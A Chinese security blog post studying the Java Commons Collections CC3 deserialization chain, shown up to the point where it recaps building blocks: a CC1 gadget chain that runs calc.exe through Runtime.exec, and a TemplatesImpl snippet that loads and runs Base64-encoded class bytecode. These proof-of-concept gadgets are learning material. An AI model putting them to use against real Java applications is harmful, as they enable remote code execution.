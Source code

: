```yaml
---
layout: post
title: "Java安全之CC3"
date: "2022-11-12T11:16:02.119Z"
---
```

Java安全之CC3
==========

学习了动态加载字节码就可以来看看CC3这条链了

前言
==

上一篇文章学习了Java中加载字节码的⼀些⽅法，其中介绍了`TemplatesImpl`，TemplatesImpl 是⼀个可以加载字节码的类，通过调⽤其`newTransformer()`⽅法，即可执⾏这段字节码的类构造器。

分析
==

在CC1中，我们说可以利⽤`TransformedMap`执⾏任意Java⽅法；

    public class CommonCollections1 {
        public static void main(String[] args) throws Exception {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.getRuntime()),
                    new InvokerTransformer("exec", new Class[]{String.class},
                            new Object[]{"C:/Windows/System32/calc.exe"}),
            };
            Transformer transformerChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            outerMap.put("test", "xxxx");
        }
    }
    

⽽在[Java安全之动态加载字节码](https://www.cnblogs.com/gk0d/p/16880749.html)中，我们⼜学习了如何利⽤`TemplatesImpl`执⾏字节码

    public static void main(String[] args) throws Exception {
    // source: bytecodes/HelloTemplateImpl.java
            byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgASCQATABQIABUKABYAFwcAGAcAGQEA" +
                    "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP" +
                    "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0" +
                    "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCm" +
                    "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y" +
                    "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw" +
                    "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp" +
                    "bml0PgEAAygpVgEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAb" +
                    "DAAcAB0BABNIZWxsbyBUZW1wbGF0ZXNJbXBsBwAeDAAfACABABJIZWxsb1RlbXBsYXRlc0ltcGwB" +
                    "AEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFj" +
                    "dFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5z" +
                    "bGV0RXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3Ry" +
                    "ZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5n" +
                    "OylWACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAIAAsA" +
                    "AAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAACgALAAAABAABAAwA" +
                    "AQAOAA8AAQAJAAAALQACAAEAAAANKrcAAbIAAhIDtgAEsQAAAAEACgAAAA4AAwAAAA0ABAAOAAwA" +
                    "DwABABAAAAACABE=");
            TemplatesImpl obj = new TemplatesImpl();
            setFieldValue(obj, "_bytecodes", new byte[][]{code});
            setFieldValue(obj, "_name", "HelloTemplatesImpl");
            setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
            obj.newTransformer();
        }
    }
    